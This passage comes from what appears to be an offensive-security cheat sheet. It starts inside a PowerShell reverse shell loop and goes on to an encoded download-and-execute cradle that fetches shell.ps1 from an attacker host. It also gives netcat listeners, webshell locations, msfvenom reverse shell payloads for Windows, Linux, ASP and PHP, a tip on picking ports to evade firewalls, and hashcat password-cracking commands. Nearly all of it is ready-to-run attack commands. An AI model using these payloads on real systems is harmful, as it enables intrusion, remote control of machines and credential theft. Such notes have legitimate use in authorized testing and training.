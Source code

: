           if($command -eq "exit"){break}
          $output = (Invoke-Expression $command 2>&1 | Out-String)
          $writer.WriteLine($output)
          $writer.Flush()
        }
        $client.Close()
       ```
    3. Start listener `nc -lvnp 4444`
    4. Execute the encoded payload on target
       - ?page
         `powershell -EncodedCommand <Base64EncodedString>`
       - RCE
          ```
          $payload = "powershell -nop -c ""IEX(New-Object Net.WebClient).DownloadString('http://<kali>/shell.ps1')"""
          $encoded = [Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes($payload))
          powershell -EncodedCommand $encoded
          ```
     5. Get reverse shell successfully   
- PHP injection/ ready webshell (asp, aspx, cfm, jsp, laudanum, perl, php) locate in kali `/usr/share/webshells/`
  - aspx: cmdasp.aspx
  - php: simple-backdoor.php (cmd), php-reverse-shell.php (reverse web shell)
  - netcat: https://github.com/int0x33/nc.exe/blob/master/nc64.exe
- File upload allowed  
  **step 1 start an HTTP server for file delivey (if need to download the payload from kali): `python3 -m http.server 80`**  
  **step 2 start a netcat listener (ensure port match the payload): `nc -lvnp 4444`**  
  **step 3 generate payload based on target platform**  
  - windows32: `msfvenom -p windows/shell_reverse_tcp LHOST=<KALI> LPORT=443 -f exe -o shell32.exe`
  - windows64: `msfvenom -p windows/x64/shell_reverse_tcp LHOST=<KALI>5 LPORT=443 -f exe -o shell64.exe`  
  - Linux x86: `msfvenom -p linux/x86/shell_reverse_tcp LHOST=<KALI> LPORT=4444 -f elf -o shell.elf`  
  - Linux x64: `msfvenom -p linux/x64/shell_reverse_tcp LHOST=<KALI> LPORT=4444 -f elf -o shell64.elf`  
  - ASP web shell/vuln upload: `msfvenom -p windows/shell_reverse_tcp LHOST=<KALI> LPORT=4444 -f asp -o shell.asp`  
  - PHP web shell/vuln upload: `msfvenom -p php/reverse_php LHOST=<KALI> LPORT=4444 -f raw -o shell.php`
- check if the port is open (FW might block)  
  `nmap -p 80,443, 8443, 8080, 4444 <TARGET_IP>`  
- Kali listener
  `nc -lvnp 443`
    
**Tips:**  
  - Always match LPORT between payload and nc  
  - If you’re serving the payload via HTTP (shell.exe, shell.elf, etc.), make sure it's in the same directory where you started python3 -m http.server  
  - You can also use ports like 443, 53, or 80 as LPORT to bypass firewalls
# Encode-Decode-Hash    
- Base64 for web: [CyberChef](https://gchq.github.io/CyberChef/)  
- Hash identify: [Hash analyzer](https://www.tunnelsup.com/hash-analyzer/)  
- Hash identify: [hashcat example](https://hashcat.net/wiki/doku.php?id=example_hashes)  
- Hash tracker: [CrackStation](https://crackstation.net/)  
- Base64 encoded: `b2Zmc2VjMTIzIQ==`  
- common hash types  
  `hashcat -m 0 crackme.txt /usr/share/wordlists/rockyou.txt -r demo4.rule --force`  
  `hashcat -m 1000 nelly.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force`  
  `hashcat -m 22921 ssh.hash ssh.passwords -r ssh.rule --force`    
  `hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force`   
